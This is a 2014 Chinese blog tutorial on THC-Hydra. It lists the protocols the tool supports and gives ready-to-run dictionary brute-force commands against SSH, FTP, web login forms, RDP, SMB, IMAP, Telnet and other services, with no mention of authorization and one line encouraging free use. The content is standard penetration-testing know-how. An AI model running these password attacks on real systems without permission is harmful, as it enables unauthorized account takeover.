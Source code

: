 ```yaml
---
layout: post_item
status: publish
published: true
title: hydra，对会话认证的攻击
author: jsongo
wordpress_id: 234
wordpress_url: http://jsongo.com/?p=234
date: '2014-02-18 02:15:34 +0800'
date_gmt: '2014-02-17 18:15:34 +0800'
categories: [security]
tags: [hack]
comments: []
---
```

官网：https://www.thc.org/thc-hydra/

它支持破解很多种协议，常见的有HTTP-FORM-GET，HTTP-FORM-POST，SSH等，另外还有（来自官网）：

Asterisk，AFP，思科，CVS，Firebird，FTP，HTTP-GET，HTTP头，HTTP代理，HTTPS-FORM-GET，HTTPS-FORM POST，IMAP，HTTP代理，HTTPS的GET，HTTPS头，ICQ，IRC，LDAP，MS-SQL，MYSQL，NCP，NNTP，Oracle的监听，Oracle的SID，oracle数据库，PCAnywhere，PCNFS，POP3，POSTGRES，RDP，REXEC，Rlogin，RSH，SAP/R3，SIP，SMB，SMTP，SMTP枚举，SNMP，SOCKS5，SSH（v1和v2），Subversion，TeamSpeak（TS2），telnet，VMware的认证，VNC和XMPP

(Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, S7-300, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC and XMPP)

可谓无所不能。不过使用的时候，一般都需要一个字典文件。只要你的字典够强大，网络任你行。

在mac上实验。下载源码包，需要手动编译。安装前先装好pcre和libssh两个库。

然后就是./configure &amp;&amp; make &amp;&amp; make install了

破解ssh登录认证：

{% highlight bash %}

hydra jsongo.com ssh&nbsp;&nbsp;-l root -P tmp.txt

{% endhighlight %}
破解post用户名密码：

破解ftp：

{% highlight bash %}
# hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV<br />
# hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV<br />
{% endhighlight %}
get方式提交，破解web登录：

{% highlight bash %}
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/<br />
# hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php<br />
{% endhighlight %}
post方式提交，破解web登录：<br />
该软件的强大之处就在于支持多种协议的破解，同样也支持对于web用户界面的登录破解，get方式提交的表单比较简单，这里通过post方式提交密码破解提供思路。该工具有一个不好的地方就是，如果目标网站登录时候需要验证码就无法破解了。带参数破解如下：

{% highlight html %}

<form action="index.php" method="POST">
<input type="text" name="name" /><BR><br><br />
<input type="password" name="pwd" /><br><br><br />
<input type="submit" name="sub" value="提交"><br />
</form><br />
{% endhighlight %}

假设有以上一个密码登录表单，我们执行命令：

{% highlight bash %}
# hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form &ldquo;index.php:name=^USER^&amp;pwd=^PASS^:<title>invalido</title>&rdquo;<br />
{% endhighlight %}

说明：破解的用户名是admin，密码字典是pass.lst，破解结果保存在ok.lst，-t 是同时线程数为1，-f 是当破解了一个密码就停止，ip 是本地，就是目标ip，http-post-form表示破解是采用http 的post 方式提交的表单密码破解。

后面参数是网页中对应的表单字段的name 属性，后面<title>中的内容是表示错误猜解的返回信息提示，可以自定义。

{% highlight bash %}
破解https：
# hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
破解teamspeak：
# hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
破解cisco：
# hydra -P pass.txt 10.36.16.18 cisco
# hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
破解smb：
# hydra -l administrator -P pass.txt 10.36.16.18 smb
破解pop3：
# hydra -l muts -P pass.txt my.pop3.mail pop3
破解rdp：
# hydra ip rdp -l administrator -P pass.txt -V
破解http-proxy：
# hydra -l admin -P pass.txt http-proxy://10.36.16.18
破解imap：
# hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
# hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
破解telnet
# hydra ip telnet -l 用户 -P 密码字典 -t 32 -s 23 -e ns -f -V
{% endhighlight %}
最后的示例来自：http://www.cnblogs.com/patf/p/3142564.html

